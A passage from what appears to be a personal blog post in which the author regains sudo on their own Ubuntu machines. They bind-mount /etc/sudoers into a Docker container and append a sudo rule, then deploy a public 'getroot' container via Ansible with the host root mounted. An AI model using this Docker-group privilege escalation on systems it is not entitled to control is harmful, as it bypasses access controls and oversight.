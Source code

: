 So because we can create Docker containers, and run as `root` _within_ the containers, we are able to use Docker bind mounts to manipulate files on the host as if we were `root` on the host. This is looking good for us. So what exactly can we do with this?

Could we edit the shadow file directly to enable the root account and set a password? This was my first thought but, after some ~~investigation~~ Stack Overflow, [it doesn't seem like a good idea](https://unix.stackexchange.com/questions/190241/why-should-you-never-edit-the-etc-shadow-file-directly).

So let's try something a bit cleaner and see whether we can mount and edit the `/etc/sudoers` file that I mentioned earlier:
```sh
docker run --rm -it -v /etc/sudoers:/host/etc/sudoers alpine:latest
```

```sh
root@47f4da624aae:/# echo "alex ALL=(ALL:ALL) ALL" >> /host/etc/sudoers && visudo -cf /host/etc/sudoers
/host/etc/sudoers: parsed OK
/host/etc/sudoers.d/README: parsed OK
```

Fortunately, this worked! I was able to use `sudo` again, and was able to use my newly-regained privileges to restore my group membership to the groups I had been in previously.

#### Hair of the Dog
So I could regain control on a system-by-system basis, but this wasn't going to be enough. I had automated myself into this mess, and I was determined to automate myself out of it. Could I turn this around and use the tools that had already stung me to fix the issue I'd caused?

I took what I had learned above, and wrapped it up [into a Docker container](https://gitlab.com/alexhaydock/getroot) to automate the privilege escalation process, and pushed it to my GitLab container registry. You can go and have a look, and build/run the container for yourself. It's the same one in the command at the top of the article, and should work on `x86_64`, `armv7l` and `aarch64` systems.

So now that I had a nice concise single-line way of exploiting my own systems, I could turn back to Ansible to automate the process of deploying it, as so:
```yaml
{% raw %}
- name: Find our UID on the remote system
  command: "id -g"
  register: uid

- name: Just a nice friendly Docker privilege escalation 🐳
  docker_container:
    image: "registry.gitlab.com/alexhaydock/getroot:latest"
    env:
      HOSTUID: "{{ uid.stdout }}"
    volumes:
      - /:/host

- name: Restore the default Ubuntu groups for an unprivileged user
  user:
    name: "{{ ansible_user_id }}"
    group: "{{ ansible_user_id }}"
    groups: adm,cdrom,docker,sudo,dip,plugdev,lxd
{% endraw %}
```
